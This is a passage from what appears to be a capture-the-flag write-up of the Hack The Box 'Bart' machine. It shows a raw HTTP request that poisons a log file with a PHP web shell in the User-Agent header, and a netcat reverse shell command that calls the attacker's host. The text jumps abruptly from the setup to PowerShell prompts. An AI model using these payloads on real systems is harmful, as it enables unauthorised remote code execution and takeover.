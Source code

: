 Pretty conspicuous get req.. Connecting to `http://internal-01.bart.htb/log/log.php?&username=harvey&filename=log.php`:
![Image](/assets/bart/018.png)

Everytime I reload the page it logs me by using my user agent.. So could there be log poisoning? Well if you check the req out in burp, and attempt to mess around with the value `User-Agent` you'll see that whatever you put in your `User-Agent` value it'll get written to `log.php`. So all we got to do to get RCE is inject a small pice of PHP code:
```
GET /log/log.php?&username=harvey&filename=log.php HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php echo system($_GET["cmd"]); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=v3jcjjj77dumj5cbmpo0q6ds53
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

As you can see in the above req, I injected the php code `<?php echo system($_GET["cmd"]); ?>` into the `User-Agent` value. All we got to do now is use the `cmd` paramater to issue commands on the target machine. Running `ifconfig`:
![Image](/assets/bart/019.png)


Now to get a shell. The first thing I want to do is get netcat onto the target machine. The plan is to inject another php command into the `User-Agent` value again, and have it download `nc.exe` from my attacking machine. Then from there we can use `cmd` to execute `nc.exe`. We'll first need to setup a server using python:
```
python3 -m http.server 8888
```


[localhost]: PS C:\Users\h.potter\Documents> whoami
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "C:\inetpub\wwwroot\internal-01\log\nc.exe 10.10.14.21 3333 -e cmd.exe"